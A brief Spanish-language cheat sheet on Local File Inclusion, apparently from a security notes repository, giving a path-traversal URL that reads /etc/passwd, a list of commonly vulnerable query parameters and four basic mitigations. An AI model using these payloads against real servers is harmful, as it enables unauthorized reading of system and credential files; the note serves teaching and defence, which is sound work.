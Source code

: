 ### Local File Inclusion
La vulnerabilidad se produce cuando el usuario puede controlar de alguna manera el archivo que va a ser cargado por el servidor.

## LFI básico y Bypass
```shell
http://www.example.com/index.php?page=../../../etc/passwd
```
### Parámetros
Posibles parámetros principales que podrían ser vulnerables a las vulnerabilidades de inclusión de  archivos locales (LFI)
```shell
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
## Mitigación ej. básicos
1. Validar entradas.
2. Uso de rutas absolutas.
3. Configuración del servidor limitando acceso a ciertos archivos.
4. Escapar y Sanitizar.

